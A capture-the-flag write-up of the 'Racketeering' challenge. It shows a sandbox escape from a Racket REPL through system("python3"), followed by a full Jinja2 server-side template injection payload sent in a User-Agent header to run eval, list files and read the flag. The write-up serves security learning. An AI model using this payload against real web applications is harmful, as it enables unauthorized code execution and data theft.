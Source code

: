
# Racketeering

- Category: Misc
- Difficulty: Hard

Challenge text:
```
I just found out my professor is going to be teaching us Python next semester! I wonder if theres anything interesting on his computer...
```

Challenge server: ` nc nc.lagncra.sh 8006 ` (netcat)
## Solving the challenge
Let us netcat into the server.  
We see this interactive Racket psuedo-shell:
```
Welcome to Racket v8.6 [cs].
; Warning: no readline support (ffi-lib: could not load foreign library
  path: libedit.so.3
  system error: libedit.so.3: cannot open shared object file: No such file or directory)
>
```

According to [Racket documentation](https://docs.racket-lang.org/reference/subprocess.html#%28def._%28%28lib._racket%2Fsystem..rkt%29._system%29%29), one can open a shell by using `(system "<shell>")`. Thus, we can run a command and use Bash/Python3 which we are more familiar with.

Since the challenge text mentions Python, lets use Python.  
`(system "python3")`

A python interactive terminal is opened:  
![image](https://user-images.githubusercontent.com/58442255/233847878-9c3fa8d7-2f13-42ab-9afe-2c0c1191a741.png)

It seems like there is something in `/flag`:
![image](https://user-images.githubusercontent.com/58442255/233847919-7870fb7c-4133-4445-8642-e1947d371d91.png)

Let us visit http://tennisracket2-grade-bot:5000 with requests.
It seems like the page is hosted locally:
![image](https://user-images.githubusercontent.com/58442255/233848156-cea3c2e4-c91a-43b0-bc39-220df4af10f9.png)

From the image, we can glean that the User Agent is logged. Maybe there is some form of injection we can do with this? Let us try Server Side Template Injection, which is common in templating attack challenges.

![image](https://user-images.githubusercontent.com/58442255/233848343-e7bf38d2-2e05-46aa-80b2-e623be134c25.png)

It appears that the endpoint is vulnerable.
Let us use our payload from DotDashDot (https://github.com/czlucius/ctf-writeups/blob/main/lag-and-crash-2023/web/DotDashDot.md)

```
{% for c in [].__class__.__base__.__subclasses__() %}
  {% if c.__name__ == 'catch_warnings' %}
    {% for b in c.__init__.__globals__.values() %}
    {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").listdir()') }}
      {% endif %}
    {% endif %}
    {% endfor %}
  {% endif %}
{% endfor %}
```

(remove newlines)
```
{% for c in [].__class__.__base__.__subclasses__() %}   {% if c.__name__ == 'catch_warnings' %}     {% for b in c.__init__.__globals__.values() %}     {% if b.__class__ == {}.__class__ %}       {% if 'eval' in b.keys() %}         {{ b['eval']('__import__("os").listdir()') }}       {% endif %}     {% endif %}     {% endfor %}   {% endif %} {% endfor %}
```

Since it contains both ' and ", let us use Python's triple quote: `"""`  
`requests.get("http://tennisracket2-grade-bot:5000", headers={"User-Agent": """{% for c in [].__class__.__base__.__subclasses__() %}   {% if c.__name__ == 'catch_warnings' %}     {% for b in c.__init__.__globals__.values() %}     {% if b.__class__ == {}.__class__ %}       {% if 'eval' in b.keys() %}         {{ b['eval']('__import__("os").listdir()') }}       {% endif %}     {% endif %}     {% endfor %}   {% endif %} {% endfor %}"""})`
![image](https://user-images.githubusercontent.com/58442255/233848540-4da569bb-dc7c-42ba-ad19-aebd3d18d263.png)   
We see the flag file!
`requests.get("http://tennisracket2-grade-bot:5000", headers={"User-Agent": """{% for c in [].__class__.__base__.__subclasses__() %}   {% if c.__name__ == 'catch_warnings' %}     {% for b in c.__init__.__globals__.values() %}     {% if b.__class__ == {}.__class__ %}       {% if 'eval' in b.keys() %}         {{ b['eval']('open("flag").read()') }}       {% endif %}     {% endif %}     {% endfor %}   {% endif %} {% endfor %}"""})`

We got the flag: `LNC2023{r5ck3t_fl5sk_sst1_w1th_pr1v_3sc_9aSca3D}`!

